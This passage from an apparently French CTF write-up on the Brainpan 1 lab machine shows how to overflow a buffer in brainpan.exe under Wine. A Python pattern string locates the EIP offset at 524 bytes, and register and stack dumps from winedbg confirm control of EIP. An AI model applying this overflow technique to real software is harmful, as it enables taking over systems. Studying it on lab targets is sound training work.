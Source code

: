 ![Wine watson](https://raw.githubusercontent.com/devl00p/blog/master/images/brainpan_1/watson.png)

Bingo ! On peut écraser EIP. Il ne reste qu'à déterminer combien d'octets doivent être passés pour y parvenir.  

L'instruction Python suivante permet de générer une chaîne pour déterminer cela :  

```python
"A" * 516 + "B" * 4 + "C" * 4 + "D" * 4 + "E" * 4 + "F" * 4 + "G" * 4 + "H" * 4 + "I" * 4 + "J" * 4
```

Et cette fois EIP est rempli de D :  

```plain
Unhandled exception: page fault on read access to 0x44444444 in 32-bit code (0x44444444).
Register dump:
 CS:0023 SS:002b DS:002b ES:002b FS:0063 GS:006b
 EIP:44444444 ESP:0042f800 EBP:43434343 EFLAGS:00010297(  R- --  I S -A-P-C)
 EAX:ffffffff EBX:7b8bb000 ECX:00000073 EDX:0042f5f0
 ESI:7ffdf000 EDI:31171280
```

Il nous faut donc 516 + 8 = 524 octets avant d’écraser EIP. On relance en mettant 524 A puis 4 D. On en profite pour regarder plus en détails l'état de la stack et des registres via *winedbg* dont les commandes sont similaires à *gdb* :  

```shellsession
$ winedbg ./brainpan.exe 
fixme:service:scmdatabase_autostart_services Auto-start service L"PGPsdkDriver" failed to start: 2
fixme:service:scmdatabase_autostart_services Auto-start service L"PGPsdkServ" failed to start: 2
fixme:advapi:RegisterEventSourceA ((null),"PGPservice"): stub
fixme:advapi:RegisterEventSourceW (L"",L"PGPservice"): stub
fixme:advapi:ReportEventA (0xcafe4242,0x0004,0x0000,0x00000069,(nil),0x0000,0x00000000,0xe7e970,(nil)): stub
wine: Unhandled page fault on read access to 0x00000000 at address 0x10079c8a (thread 0023), starting debugger...
WineDbg starting on pid 002d
0x7b862457: movl        %edi,0x4(%esp)
Wine-dbg>c
Unhandled exception: page fault on read access to 0x42424242 in 32-bit code (0x42424242).
Register dump:
 CS:0023 SS:002b DS:002b ES:002b FS:0063 GS:006b
 EIP:42424242 ESP:0043f800 EBP:41414141 EFLAGS:00010297(  R- --  I S -A-P-C)
 EAX:ffffffff EBX:7b8bb000 ECX:00000073 EDX:0043f5f0
 ESI:7ffdf000 EDI:31171280
Stack dump:
0x0043f800:  0043000a 0043fa20 000003e8 00000000
0x0043f810:  0000027f 00000000 7ed60fc6 00000000
0x0043f820:  7ede10e0 00000000 00001f80 00000010
0x0043f830:  00000000 00000000 00000000 00000000
0x0043f840:  25d00002 0100007f 00000000 00000000
0x0043f850:  0f270002 00000000 00000000 00000000
000c: sel=0067 base=00000000 limit=00000000 32-bit --x
Backtrace:
=>0 0x42424242 (0x41414141)
0x42424242: -- no code accessible --
Wine-dbg>info reg
Register dump:
 CS:0023 SS:002b DS:002b ES:002b FS:0063 GS:006b
 EIP:42424242 ESP:0043f800 EBP:41414141 EFLAGS:00010297(  R- --  I S -A-P-C)
 EAX:ffffffff EBX:7b8bb000 ECX:00000073 EDX:0043f5f0
 ESI:7ffdf000 EDI:31171280
Wine-dbg>x/s 0x0043fa20
AAAAAAAAAAAAAAAA---snip---AAAAAAAAAAAAAAAA
```
